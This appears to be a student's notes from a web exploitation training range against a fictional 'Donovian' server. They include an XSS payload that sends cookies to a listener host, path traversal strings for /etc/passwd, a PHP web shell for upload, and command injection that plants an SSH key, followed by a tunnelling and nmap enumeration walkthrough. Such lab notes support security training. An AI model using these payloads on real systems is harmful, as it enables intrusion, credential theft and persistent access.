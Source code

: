     10.50.X.X/path/pathdemo.php
    10.50.X.X/cmdinjectdemo.php
________________________________________________________________________________________________________________
    <script>document.location="http://10.50.21.223:8000"+document.cookie;</script>
________________________________________________________________________________________________________________
## Server-Side injection
## Post method: 
    ../../../../../../ect/hosts
    ../../../../../../ect/passwd
________________________________________________________________________________________________________________
## Malicious File Upload: 
    <HTML><BODY>
    <FORM METHOD="GET" NAME="myform" ACTION="">
    <INPUT TYPE="text" NAME="cmd">
    <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
    <?php
    if($_GET['cmd']) {
      system($_GET['cmd']);
      }
    ?>
    </pre>
    </BODY></HTML>
### 1: place to upload
### 2: access to upload
### 3: call to upload
________________________________________________________________________________________________________________
## Uploading SSH Key: 
    ; ls -la /users/home/directory                           #check if .ssh exists
    ; mkdir /users/home/directory/.ssh                       #make .ssh in users home folder if it does not exist
    ssh-keygen -t rsa -b 4096                                #creating ssh private and public keys
    cat ~/.ssh/id_rsa.pub                                    #copying public key to paste into below command
    ; echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys    #placing ssh key in directory
    ; cat /users/home/directory/.ssh/authorized_keys         #verifying the ssh key was emplaced
________________________________________________________________________________________________________________
# Scheme of Maneuver:
# >Jump Box
# ->T1:10.100.28.40
## Target Section:
## T1
## Hostname: Donovian_MI_websvr
## IP: 10.100.28.40
## OS: unknown
## Creds:unknown
## Last Known SSH Port: unknown
## PSP: Unknown
## Malware: Unknown
## Action: Conduct approved Web Exploitation techniques to collect intellegence.
________________________________________________________________________________________________________________
## SSH to your tunnel: 
    ssh -MS /tmp/jump student@10.50.25.229
________________________________________________________________________________________________________________
## New Pane set up a dynamic port forward: 
    ssh -S /tmp/jump jump -O forward -D9050
________________________________________________________________________________________________________________
## New Pane start scanning: 
    proxychains nmap -T4 -Pn 10.100.28.40
```
Nmap scan report for 10.100.28.40
Host is up (0.00059s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
4444/tcp open  krb524

Nmap done: 1 IP address (1 host up) scanned in 0.58 seconds

```
________________________________________________________________________________________________________________
## Validate the ports found: 
    proxychains nc 10.100.28.40 80        #discovered http
    proxychains nc 10.100.28.40 4444      #discovered alt ssh
________________________________________________________________________________________________________________
## Set up port forward tunnel to connect to both of the ports above: 
    ssh -S /tmp/jump jump -O forward -L10001:10.100.28.40:80 -L10002:10.100.28.40:4444
________________________________________________________________________________________________________________
## Run firefox to access the http port discovered through the tunnel: 
    firefox http://127.0.0.1:10001
________________________________________________________________________________________________________________
## Next utilize scripts to gather more info: (use one pane for viewing the scripts, previous pane for scanning.)
    ls /usr/share/nmap/scripts/ | grep http
```
http-enum.nse
```
    proxychains nmap -T4 -Pn 10.100.28.40 --script=http-enum.nse
```
Nmap scan report for 10.100.28.40
Host is up (0.00060s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
| http-enum: 
|   /robots.txt: Robots file
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
4444/tcp open  krb524

Nmap done: 1 IP address (1 host up) scanned in 1.20 seconds

```
________________________________________________________________________________________________________________
## The above scan shows directories worth taking a look at: (IN THE URL ON FIREFOX) 
    http://127.0.0.1:10001/robots.txt
    http://127.0.0.1:10001/css/
    http://127.0.0.1:10001/images/
    http://127.0.0.1:10001/uploads/
________________________________________________________________________________________________________________
## In the /uploads/ clicking the link reveals the message: 
    http://127.0.0.1:10001/uploads/message
```
Just completed my Cyber Awareness training and it says ATOPIA. Last I checked that is a whole other country.
Please send me a corrected cert with the right now.

I took my online training from the following website

10.100.28.55
```
________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________
